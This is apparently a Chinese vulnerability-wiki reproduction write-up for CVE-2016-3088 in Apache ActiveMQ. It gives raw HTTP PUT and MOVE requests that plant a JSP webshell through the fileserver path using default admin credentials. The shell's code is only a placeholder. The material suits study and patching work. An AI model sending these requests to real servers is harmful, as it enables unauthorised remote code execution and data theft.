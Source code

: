 （CVE-2016-3088）ActiveMQ应用漏洞
=================================

一、漏洞简介
------------

ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

二、漏洞影响
------------

Apache ActiveMQ 5.x \~ 5.14.0

三、复现过程
------------

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/

下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面

所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId24.png)

    PUT /fileserver/shell.jsp HTTP/1.1
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=

    shell

利用 MOVE 方法将 Webshell 移入 admin/ 目录

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId25.png)

    Request Raw:
    MOVE /fileserver/shell.jsp HTTP/1.1
    Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=
    Content-Length: 17
    Content-Length: 0

    shell

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId26.png)
